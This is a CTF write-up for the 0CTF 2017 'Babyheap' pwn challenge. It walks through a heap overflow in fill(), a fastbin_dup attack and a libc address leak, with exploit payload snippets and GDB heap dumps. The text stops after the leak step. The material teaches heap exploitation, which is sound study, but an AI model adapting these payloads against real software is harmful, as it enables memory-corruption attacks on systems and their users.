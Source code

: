 ## 0CTF 2017 - Babyheap

This is another basic heap challenge from the 0CTF which I use some different way to leak the address(That's what we always need for a heap challenge)!

### Requirements

- Find the vulnerability(heap overflow in `fill()` function)
- Leak the libc address.
- Calculat the offset of the libc base address.
- Find the place to put the one_gadget address.
- Trigger!

### Leak the address in the libc

As a heap challenge with a given libc.so, what we allways need to do is too leak the address from the libc and calculate the offset to find the base address of libc. This is also same with this challenge from 0CTF. 

From [how2heap](https://github.com/shellphish/how2heap), this challenge is under `fastbin_dup_into_stack` which is the tech we gone use to leak the address from the heap. **But, at first, I must explain why we need to leak the address this way.** When the fastbin link list only has one chunk, there's no address will be set in the `FD` and `BK` because top of the free list of fastbin will be store in the `main_arena`. So, in this case, we need to cheat the `malloc()` to return a allocated small bin size chunk as a fastbin size chunk. After we get two pointers which both point to one chunk, we can free the small bin one and it will set the `FD` and `BK` for us. That's the thing we want to leak. 

First, we need to allocate five chunks(first three are fastbin size and other two are smallbin size). The reason why we need to allocate two small bins is that if we only allocate one, when we free it, it will consolidate with the top chunk.

```
alloc(0x10) #Index 0	<- Fastbin
alloc(0x10) #Index 1	<- Fastbin
alloc(0x10) #Index 2	<- Fastbin
alloc(0x80) #Index 3	<- Small bin
alloc(0x80) #Index 4	<- Small bin
```

```
0x557c24bb9000:	0x0000000000000000	0x0000000000000021 <- Index 0
0x557c24bb9010:	0x0000000000000000	0x0000000000000000 <- 0's content
0x557c24bb9020:	0x0000000000000000	0x0000000000000021 <- Index 1
0x557c24bb9030:	0x0000000000000000	0x0000000000000000 <- 1's content
0x557c24bb9040:	0x0000000000000000	0x0000000000000021 <- Index 2 
0x557c24bb9050:	0x0000000000000000	0x0000000000000000 <- 2's content
0x557c24bb9060:	0x0000000000000000	0x0000000000000091 <- Index 3
0x557c24bb9070:	0x0000000000000000	0x0000000000000000 <- 3's content
...
0x557c24bb90e0:	0x0000000000000000	0x0000000000000000
0x557c24bb90f0:	0x0000000000000000	0x0000000000000091 <- Index 4
0x557c24bb9100:	0x0000000000000000	0x0000000000000000 <- 4's content
0x557c24bb9110:	0x0000000000000000	0x0000000000000000
...
0x557c24bb9170:	0x0000000000000000	0x0000000000000000
```

Then, we will free the 2nd chunk then the 1st chunck(Index). This will give us a free list and in the 1st chunk, we can see the address of the 2nd chunk.

```
free(2)
free(1)
```

```
fastbins
0x20: 0x560c20963020 —▸ 0x560c20963040 ◂— 0x0
0x30: 0x0
Address layout in GDB: 
pwndbg> x/40gx 0x560c20963000
0x560c20963000:	0x0000000000000000	0x0000000000000021 <- Index 0
0x560c20963010:	0x0000000000000000	0x0000000000000000
0x560c20963020:	0x0000000000000000	0x0000000000000021 <- Index 1 free
0x560c20963030:	0x0000560c20963040	0x0000000000000000 <- The address of the next free chunk in the free list
0x560c20963040:	0x0000000000000000	0x0000000000000021 <- Index 2 free
0x560c20963050:	0x0000000000000000	0x0000000000000000
0x560c20963060:	0x0000000000000000	0x0000000000000091 <- Index 3
```

### Fastbin attack

Third, because the `0x560c20963060` is the address of the 3rd chunk(Index) which is a small chunk, we need to cheat `malloc()` to allocate that chunk for us. What we gonne do is to `fill()` the 0th chunk and overflow the address in the free list from `0x560c20963040` to `0x560c20963060`. Then if we allocate same size memory from the fastbin, we can get `0x560c20963060` instead of `0x560c20963040`.

```
payload = p64(0) * 3
payload += p64(0x21)
payload += p8(0x60)
fill(payload, 0)
alloc(0x10) #Index 1
```

```
fastbins
0x20: 0x55bab90d3060 ◂— 0x0 (Compare with the above linklist, 0x40 change to 0x60)
```

For now, we get the 1st(Index) chunk from the heap but we want to get the `0x560c20963060` as the fastbin. However, if we directly request `0x10` chunk, we cannot get the `0x560c20963060` because the size of it is `0x0000000000000091` which is `0x80`(-header). So, we need to use another overflow to change `0x0000000000000091` to `0x0000000000000021`.

```
payload = p64(0) * 3
payload += p64(0x21)
payload += p64(0) * 3
payload += p64(0x21)
fill(payload, 1)
alloc(0x10) #Index 2 (All the payload is for this, we want a fastbin)
```
```
0x56058fc0b000:	0x0000000000000000	0x0000000000000021 <- Index 0
0x56058fc0b010:	0x0000000000000000	0x0000000000000000
0x56058fc0b020:	0x0000000000000000	0x0000000000000021 <- Index 1
0x56058fc0b030:	0x0000000000000000	0x0000000000000000
0x56058fc0b040:	0x0000000000000000	0x0000000000000021 <- Index 2 free
0x56058fc0b050:	0x0000000000000000	0x0000000000000000
0x56058fc0b060:	0x0000000000000000	0x0000000000000021 <- Index 3 & 2 (Used to be 91)
Index 3 is the smallbin(0x80), and index 2 is the fastbin(0x10)
...
0x56058fc0b0e0:	0x0000000000000000	0x0000000000000000
0x56058fc0b0f0:	0x0000000000000000	0x0000000000000091 <- Index 4
0x56058fc0b100:	0x0000000000000000	0x0000000000000000
...
0x56058fc0b160:	0x0000000000000000	0x0000000000000000
```

Aha, now we get two pointer point to same chunk. So, we can free the small bin one to return it to the unsorted bin. The libc will set the `FD` and `BK` for us. But, again we still need to control the size of the bin. This time, because we want the chunk to be a smallbin, we need to set the size back to `0x80` at first. Then! `Dump(2)`.(As a fastbin)

```
payload = p64(0) * 3
payload += p64(0x21)
payload += p64(0) * 3
payload += p64(0x91)
fill(payload, 1)
free(3)
hex(dump(2))
```
```
0x56220cde1000:	0x0000000000000000	0x0000000000000021 <- Index 0
0x56220cde1010:	0x0000000000000000	0x0000000000000000
0x56220cde1020:	0x0000000000000000	0x0000000000000021 <- Index 1
0x56220cde1030:	0x0000000000000000	0x0000000000000000
0x56220cde1040:	0x0000000000000000	0x0000000000000021 <- Index 2 free
0x56220cde1050:	0x0000000000000000	0x0000000000000000
0x56220cde1060:	0x0000000000000000	0x0000000000000091 <- Index 3 & 2 free
0x56220cde1070:	0x00007fc036f48b78	0x00007fc036f48b78 <- That's what we want!!!!
...
0x56220cde10e0:	0x0000000000000000	0x0000000000000000
0x56220cde10f0:	0x0000000000000090	0x0000000000000090 <- Index 4(P is not set)
0x56220cde1100:	0x0000000000000000	0x0000000000000000
...
0x56220cde1170:	0x0000000000000000	0x0000000000000000
```
